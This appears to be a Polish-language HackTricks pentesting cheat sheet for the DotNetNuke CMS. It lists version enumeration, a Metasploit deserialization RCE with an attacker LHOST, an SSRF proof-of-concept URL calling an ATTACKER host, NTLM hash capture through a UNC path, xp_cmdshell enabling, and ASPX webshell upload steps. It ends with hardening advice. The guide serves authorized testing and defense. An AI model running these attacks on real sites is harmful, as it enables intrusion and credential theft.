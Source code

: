 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Jeśli zalogujesz się jako **administrator** w DNN, łatwo uzyskać **RCE**, jednak w ciągu ostatnich kilku lat opublikowano szereg technik *nieautoryzowanych* i *po autoryzacji*. Poniższa ściągawka zbiera najbardziej przydatne prymitywy zarówno do pracy ofensywnej, jak i defensywnej.

---
## Wersja i enumeracja środowiska

* Sprawdź nagłówek odpowiedzi HTTP *X-DNN* – zazwyczaj ujawnia dokładną wersję platformy.
* Kreator instalacji ujawnia wersję w `/Install/Install.aspx?mode=install` (dostępne w bardzo starych instalacjach).
* `/API/PersonaBar/GetStatus` (9.x) zwraca blob JSON zawierający `"dnnVersion"` dla użytkowników o niskich uprawnieniach.
* Typowe ciasteczka, które zobaczysz na działającej instancji:
* `.DOTNETNUKE` – bilet uwierzytelniania formularzy ASP.NET.
* `DNNPersonalization` – zawiera dane profilu użytkownika w formacie XML/serializowanym (stare wersje – patrz RCE poniżej).

---
## Wykorzystanie bez autoryzacji

### 1. Deserializacja ciasteczek RCE  (CVE-2017-9822 i kontynuacje)
*Dotknięte wersje ≤ 9.3.0-RC*

`DNNPersonalization` jest deserializowane przy każdym żądaniu, gdy wbudowany handler 404 jest włączony. Odpowiednio skonstruowane XML może prowadzić do dowolnych łańcuchów gadżetów i wykonania kodu.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Moduł automatycznie wybiera odpowiednią ścieżkę dla załatanych, ale wciąż podatnych wersji (CVE-2018-15811/15812/18325/18326). Eksploatacja działa **bez uwierzytelnienia** w wersjach 7.x–9.1.x oraz z *zweryfikowanym* kontem o niskich uprawnieniach w wersjach 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Wersje dotknięte < 9.13.8  –  Łatka wydana w kwietniu 2025*

Ominięcie starszej poprawki `DnnImageHandler` umożliwia atakującemu zmuszenie serwera do wydawania **dowolnych żądań GET** (pół-ślepy SSRF). Praktyczne skutki:

* Wewnętrzne skanowanie portów / odkrywanie usług metadanych w wdrożeniach w chmurze.
* Uzyskanie dostępu do hostów, które są inaczej chronione przed Internetem.

Dowód koncepcji (zastąp `TARGET` i `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Żądanie jest wyzwalane w tle; monitoruj swój nasłuchiwacz w poszukiwaniu wywołań zwrotnych.

### 3. Ekspozycja hasha NTLM za pomocą przekierowania UNC  (CVE-2025-52488)
*Wersje dotknięte 6.0.0 – 9.x (< 10.0.1)*

Specjalnie przygotowana treść może spowodować, że DNN spróbuje pobrać zasób za pomocą **UNC path** takiego jak `\\attacker\share\img.png`. Windows chętnie przeprowadzi negocjację NTLM, ujawniając hashe konta serwera atakującemu. Zaktualizuj do **10.0.1** lub wyłącz wychodzący SMB w zaporze.

### 4. Ominięcie filtra IP  (CVE-2025-52487)
Jeśli administratorzy polegają na *Host/IP Filters* w celu ochrony portalu administracyjnego, należy pamiętać, że wersje przed **10.0.1** mogą być ominięte poprzez manipulację `X-Forwarded-For` w scenariuszu reverse-proxy.

---
## Post-autoryzacja do RCE

### Poprzez konsolę SQL
W **`Settings → SQL`** wbudowane okno zapytań pozwala na wykonanie zapytań przeciwko bazie danych witryny. Na Microsoft SQL Server możesz włączyć **`xp_cmdshell`** i uruchomić polecenia:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX webshell upload
1. Przejdź do **`Settings → Security → More → More Security Settings`**.
2. Dodaj `aspx` (lub `asp`) do **Allowable File Extensions** i **Zapisz**.
3. Przejdź do **`/admin/file-management`** i załaduj `shell.aspx`.
4. Uruchom go pod **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation on Windows
Gdy uzyskasz wykonanie kodu jako **IIS AppPool\<Site>**, stosuje się powszechne techniki eskalacji uprawnień w systemie Windows. Jeśli system jest podatny, możesz wykorzystać:

* **PrintSpoofer** / **SpoolFool** do nadużycia *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** do ucieczki z *Service Accounts*.

---
## Hardening Recommendations (Blue Team)

* **Upgrade** do co najmniej **9.13.9** (naprawia obejście SSRF) lub najlepiej **10.0.1** (problemy z filtrowaniem IP i NTLM).
* Usuń pozostałe pliki **`InstallWizard.aspx*`** po instalacji.
* Wyłącz wychodzący SMB (porty 445/139).
* Wymuś silne *Host Filters* na krawędzi proxy, a nie w DNN.
* Zablokuj dostęp do `/API/RemoteContentProxy`, jeśli nie jest używane.

## References

* Metasploit `dnn_cookie_deserialization_rce` module documentation – practical unauthenticated RCE details (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF bypass & patch information.
{{#include ../../banners/hacktricks-training.md}}
